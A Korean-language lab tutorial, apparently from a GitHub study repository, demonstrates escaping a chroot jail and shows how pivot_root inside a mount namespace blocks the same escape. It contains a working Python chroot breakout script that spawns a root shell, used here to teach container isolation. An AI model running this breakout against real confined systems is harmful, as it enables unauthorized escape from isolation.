


# 개요
* chroot를 사용하면 탈옥이 가능하다는 점을 설명

# 필요지식
* [linux mount namespace](../mount_namespace/)
* [chroot](../chroot/)

# 실습환경
* vagrant debian_python

# chroot 탈옥

1. 실습 디렉터리 생성

```sh
mkdir /root/test
```

2. debian_python를 chroot하기 위한 파일 다운로드

```sh
docker export $(docker create python:bullseye) -o /root/test/debian_python.tar
ls -l /root/test/debian_python.tar
```


3. debian_python.tar 압축 해제

```sh
cd /root/test
mkdir -p ./debian_python
tar -xvf ./debian_python.tar -C ./debian_python
```

4. chroot를 실행하면서 root디렉터리를 변경

```sh
unshare --mount chroot ./debian_python /bin/bash
```

5. 탈옥하는 python script 실행

```sh
$ cat > breakout.py
import os
if not os.path.exists("chroot-dir"):
    os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")

$ python3 breakout.py
```

# 왜 탈옥이 가능할까?
* chroot로 변경한 root디렉터리는 상대경로로 변경됨

```sh
# chroot를 실행한 프로세스에서 process id 조회
$ echo $$
5394

# host에서 실행
$ ls -l /proc/5394/root
$ ls -l /proc/5394/cwd
```



# pivot_root

1. 이전 실습파일 삭제

```sh
cd /root/test/
rm -rf ./debian_python
```

2. debian_python 압축 해제

```sh
mkdir -p ./debian_python
tar -xvf ./debian_python.tar -C ./debian_python
```

3. mount namespace를 생성하면서 sh쉘 실행

```sh
unshare --mount sh
mount --bind ./debian_python ./debian_python
```

4. pivot_root 실행

```sh
mkdir ./debian_python/.oldrootfs
cd ./debian_python
pivot_root . .oldrootfs

# 변경된 root 파일시스템으로 이동
cd /
pwd
```

5. 탈옥 실패 확인

```sh
$ cat > breakout.py
import os
if not os.path.exists("chroot-dir"):
    os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")

# 탈옥 시도
$ python3 breakout.py

# host /etc/passwd가 안보이면 pivot_root 성공
$ cat /etc/passwd
```

6. /proc에서 root, cwd확인
* chroot 결과와 다르게 상대경로가 아닌 "/"로 변경됨

```sh
# chroot를 실행한 프로세스에서 process id 조회
$ echo $$
7513

# host에서 실행
$ ls -l /proc/7513/root
$ ls -l /proc/7513/cwd
```



# 참고자료
* https://thomasvanlaere.com/posts/2020/04/exploring-containers-part-1/
* 이게 돼요? 도커 없이 컨테이너 만들기 / if(kakao)2022 - https://youtu.be/mSD88FuST80?si=Vbl63IkW6Dc8YFJk
* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash
* https://wariua.github.io/man-pages-ko/pivot_root%282%29/
